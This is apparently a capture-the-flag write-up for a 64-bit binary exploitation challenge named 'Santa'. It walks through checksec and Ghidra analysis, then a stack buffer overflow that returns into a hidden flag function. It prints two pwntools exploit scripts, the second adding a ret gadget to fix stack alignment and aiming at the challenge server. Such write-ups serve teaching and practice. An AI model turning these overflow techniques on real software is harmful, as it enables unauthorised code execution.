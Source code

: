 # Santa [Pwn]

Attached file:[here](datas/santa)

Output of checksec

```sh
$ checksec santa
```

![Checksec](datas/checksecksanta.png)

The NX is enabled, so we can't run anything on the stack, but off the stack.

In this case, we will target the RSP.

Let's run the binary.

![Exec](datas/oh.png)

Santa's C code obtained by reverse engineering with ghidra.

![CSanta](datas/CSanta.png)

I found a flag function.

![flag()](datas/flagsanta.png)

Here, we will have to cause a buffer overflow and execute the code of the flag function.

To reach the RSP: "A" * 0x38 + "BBBBBBBB"
![RSP](datas/rspsanta.png)
We can see that the RSP is reached.

We can now write our exploit to execute the flag function.

Address of flag function : 0x00401152

You can find it in gdb with the command :
```sh
info functions
```
![flag](datas/flag_.png)

Exploit:

```python
from pwn import *

#sh = remote("server.challenge.ctf.thefewchosen.com",1340)
sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401152)

print(sh.recv().decode())
sh.sendline(payload)
print(sh.recv().decode())
```
Result:

![Res](datas/outsanta.png)

But there is a problem.

When I used it on the remote server, it did not work.

```
[*] Got EOF while reading in interactive
```
##### Movaps stack alignment

If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system()[Read more...](https://ropemporium.com/guide.html)

The solution is to call the ret of an another function one more time before calling the flag() function when designing the overflow stack, so that the rsp address can be reduced by 8.

I used the return address from init.

To find it: ```objdump santa -M intel --disassemble=_init```

![init](datas/initsanta.png)

New exploit:


```python
from pwn import *

sh = remote("server.challenge.ctf.thefewchosen.com",1340)
#sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401016) + p64(0x00401152)

print(sh.recv().decode())
sh.sendline(payload)
print(sh.interactive())
```
